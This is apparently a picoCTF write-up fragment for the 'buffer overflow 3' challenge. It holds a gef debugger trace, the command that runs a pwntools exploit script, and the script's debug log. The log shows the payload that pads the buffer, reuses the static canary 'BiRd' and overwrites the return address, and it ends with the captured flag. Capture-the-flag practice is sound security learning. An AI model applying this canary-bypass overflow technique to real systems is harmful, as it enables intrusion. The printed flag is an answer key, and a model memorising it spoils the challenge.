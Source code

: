```
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x61616176 in ?? (), reason: SINGLE STEP
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  

```

### Debugging pwn flux

```
/usr/bin/python3 "/home/rivench/Documents/picoCTF/pwn/buffer_overflow_3/script.py" DEBUG
```

 - `DEBUG` : argument given when to script using pwntools give you history of sends and rcvs to see how it is going, here is an example :


```
└─$  /usr/bin/python3 "/home/rivench/Documents/picoCTF/pwn/buffer_overflow_3/script.py" DEBUG
[+] Opening connection to saturn.picoctf.net on port 52245: Done
[DEBUG] Received 0x32 bytes:
    b'How Many Bytes will You Write Into the Buffer?\r\n'
    b'> '
[DEBUG] Sent 0x3 bytes:
    b'88\n'
[DEBUG] Received 0x4 bytes:
    b'88\r\n'
[DEBUG] Received 0x7 bytes:
    b'Input> '
[DEBUG] Sent 0x59 bytes:
    00000000  61 61 61 61  62 61 61 61  63 61 61 61  64 61 61 61  │aaaa│baaa│caaa│daaa│
    00000010  65 61 61 61  66 61 61 61  67 61 61 61  68 61 61 61  │eaaa│faaa│gaaa│haaa│
    00000020  69 61 61 61  6a 61 61 61  6b 61 61 61  6c 61 61 61  │iaaa│jaaa│kaaa│laaa│
    00000030  6d 61 61 61  6e 61 61 61  6f 61 61 61  70 61 61 61  │maaa│naaa│oaaa│paaa│
    00000040  42 69 52 64  72 61 61 61  73 61 61 61  74 61 61 61  │BiRd│raaa│saaa│taaa│
    00000050  75 61 61 61  36 93 04 08  0a                        │uaaa│6···│·│
    00000059
[*] Switching to interactive mode
[DEBUG] Received 0x5a bytes:
    00000000  61 61 61 61  62 61 61 61  63 61 61 61  64 61 61 61  │aaaa│baaa│caaa│daaa│
    00000010  65 61 61 61  66 61 61 61  67 61 61 61  68 61 61 61  │eaaa│faaa│gaaa│haaa│
    00000020  69 61 61 61  6a 61 61 61  6b 61 61 61  6c 61 61 61  │iaaa│jaaa│kaaa│laaa│
    00000030  6d 61 61 61  6e 61 61 61  6f 61 61 61  70 61 61 61  │maaa│naaa│oaaa│paaa│
    00000040  42 69 52 64  72 61 61 61  73 61 61 61  74 61 61 61  │BiRd│raaa│saaa│taaa│
    00000050  75 61 61 61  36 93 5e 48  0d 0a                     │uaaa│6·^H│··│
    0000005a

[DEBUG] Received 0x48 bytes:
    b"Ok... Now Where's the Flag?\r\n"
    b'picoCTF{Stat1C_c4n4r13s_4R3_b4D_35bc40e2}\r\n'


[*] Got EOF while reading in interactive
```